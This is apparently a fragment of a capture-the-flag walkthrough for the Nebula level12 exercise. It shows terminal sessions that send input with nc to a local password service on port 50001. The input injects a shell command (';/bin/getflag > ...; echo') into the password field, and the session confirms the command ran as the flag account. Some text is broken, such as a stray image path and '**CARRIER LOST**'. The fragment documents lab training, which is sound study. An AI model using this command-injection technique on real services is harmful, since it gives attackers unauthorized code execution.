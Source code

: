 level12@nebula:~$ echo "4754a4f4bd5787accd33de887b9250a0691dd198; echo 1" | nc localhost 50001

Password: Congrats, your token is 413**CARRIER LOST**

level12@nebula:~$ echo ";/bin/getflag > /home/flag12/flag12.out; echo " | nc localhost 50001

Password: Better luck next time

level12@nebula:~$ cat ../flag12/flag12.out

You have successfully executed getflag on a target account

